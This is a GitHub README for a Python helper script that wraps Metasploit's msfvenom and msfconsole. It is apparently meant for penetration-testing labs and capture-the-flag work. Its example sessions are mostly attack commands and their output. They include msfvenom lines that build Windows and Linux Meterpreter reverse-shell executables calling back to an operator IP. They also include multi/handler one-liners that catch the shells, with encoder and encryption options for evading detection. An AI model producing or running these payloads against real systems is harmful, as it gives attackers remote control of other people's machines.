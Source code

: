 # Shells
This repository is a helper script for msfvenom and msfconsole because I am lazy.

## Installation
No installation requirements other than metasploit, but for maximum fun I would create an alias:  
```bash
python3 setup.py
```

## Usage
Defaults are tun0 network adapter IP for LHOST and 443 for LPORT.  If you have an active network adapter you do not need to pass args.

Each option has a default, if you just hit enter through all the prompts it will give you a shell.exe, and if you choose option 10 on the first screen, and enter through the rest it will give you an elf file.  Display the output to the terminal if you need to get shellcode. 
```bash
# uses tun0 and 443 as defaults
shells
```
```bash
shells 10.10.255.254 9001
```

## Example
```bash
❯ python3 shells.py
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13): 10
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell

msfvenom command:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f elf -o shell

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.2; set LPORT 443; set ExitOnSession false; exploit -j"
```

```bash
❯ python3 shells.py 10.10.255.254 9001
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13):
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell.exe

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 592 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

msfvenom command:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.255.254 LPORT=9001 -f exe -o shell.exe

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.255.254; set LPORT 9001; set EnableStageEncoding true; set StagerVerifySSLCert true; set HandlerSSLCert /key/custom.pem; set ExitOnSession false; exploit -j"
```
